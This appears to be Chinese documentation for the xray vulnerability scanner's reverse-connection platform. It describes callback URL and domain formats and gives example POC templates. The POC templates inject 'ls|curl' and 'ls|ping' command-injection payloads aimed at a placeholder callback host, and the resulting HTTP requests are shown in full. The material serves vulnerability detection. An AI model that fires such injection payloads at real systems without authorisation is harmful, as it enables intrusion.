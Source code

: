 # 介绍

`reverseType`类型主要是返回了反连平台提供的各个信息，现假设变量名为 `reverse`（需要先使用 `newReverse()` 生成实例)

!> 本文中的`domain`将拿`example.com`作为示例，`ip`将拿`10.1.1.1`作为示例，端口将拿`8899`作为示例

## 类型介绍

| 变量名                             | 类型                        | 说明                            | 适用版本         |
|---------------------------------|---------------------------|-------------------------------|--------------|
| `reverse.url`                   | `urlType`                 | 反连平台的 url                     | xray ≥ 1.8.4 |
| `reverse.domain`                | `string`                  | 反连平台的域名                       | xray ≥ 1.8.4 |
| `reverse.rmi`                   | `urlType`                 | 反连平台的rmi协议url                 | xray ≥ 1.9.4 |
| `reverse.ip`                    | `string`                  | 反连平台的 ip 地址                   | xray ≥ 1.8.4 |
| `reverse.is_domain_name_server` | `bool`                    | 反连平台的 domain 是否同时是 nameserver | xray ≥ 1.8.4 |

## 概念介绍

在reverse生成的不管是子域名还是urlPath，都会有一些像随机数一样的数据：

- `http://10.1.1.1:8899/p/9b8d02/sesI/`
- `p-6ab8d8-fun0.example.com`
- `http://10.1.1.1:8899/i/a8c723/qste/z6f2/`
- `rmi://10.1.1.1:8899/i/hcSvqI7U/b68631/9gir/7yqk/PQ5P8iBh/`
- `http://10.1.1.1:8899/t/449296/docL/0/x.js`

之所以要有这样的path,subdomain，主要是有以下几点原因：

1. 为了区分反连平台收到的请求是否是xray发出的
2. 为了区分不同的请求是由不同插件，不同任务发送的，做好区分
3. 方便异步回调，加快扫描

## 格式介绍

- `http://10.1.1.1:8899/i/a8c723/qste/z6f2/`
  - `i`: 代表该链接是由xray申请产生
  - `a8c723/qste/z6f2`: token，groupId，id的组合
- `p-6ab8d8-fun0.example.com`
  - `p`: 代表该域名是由人在反连平台界面上点击生成
  - `6ab8d8-fun0`: token，groupId的组合
- `http://10.1.1.1:8899/t/449296/docL/0/x.js`
  - `t`: 代表该链接是由模版生成
  - `449296/docL/0`: token，groupId，id的组合
  - `x.js`: 文件名

## 常见使用场景

### reverse.url

- **POC**

  ```yaml
  name: poc-yaml-test
  manual: true
  transport: http
  set:
    reverse: newReverse()
    reverseURL: reverse.url
  rules:
    r0:
      request:
        cache: true
        method: POST
        path: /run
        body: test=ls|curl+{{reverseURL}}
      expression: reverse.wait(5)
  expression: r0()
  detail:
    author: test
    links:
      - http://test.com
  ```

- **构建出的请求**

  ```HTTP
  POST /run HTTP/1.1
  Host: 127.0.0.1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
  Content-Length: 53
  Accept-Encoding: gzip, deflate
  Connection: close
  
  test=ls|curl+http://10.1.1.1:8899/i/a8c723/qste/z6f2/
  ```

- 在测试目标接收到这样的请求后，如果存在漏洞，则会执行`curl http://10.1.1.1:8899/i/a8c723/qste/z6f2/`这样一条命令，这时我们的反连平台就会收到该请求，确认漏洞存在。

### reverse.domain

- **POC**

  ```yaml
  name: poc-yaml-test
  manual: true
  transport: http
  set:
    reverse: newReverse()
    reverseDomain: reverse.domain
  rules:
    r0:
      request:
        cache: true
        method: POST
        path: /run
        body: test=ls|ping+{{reverseDomain}}
      expression: reverse.wait(5)
  expression: r0()
  detail:
    author: test
    links:
      - http://test.com
  ```

- **构建出的请求**

  ```HTTP
  POST /run HTTP/1.1
  Host: 127.0.0.1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
  Content-Length: 43
  Accept-Encoding: gzip, deflate
  Connection: close
  
  test=ls|ping+i-eeec7b-sna3-2r77.example.com
  ```

- 在测试目标接收到这样的请求后，如果存在漏洞，则会执行`ping i-eeec7b-sna3-2r77.example.com`这样一条命令，这时我们的反连平台就会收到该请求，确认漏洞存在。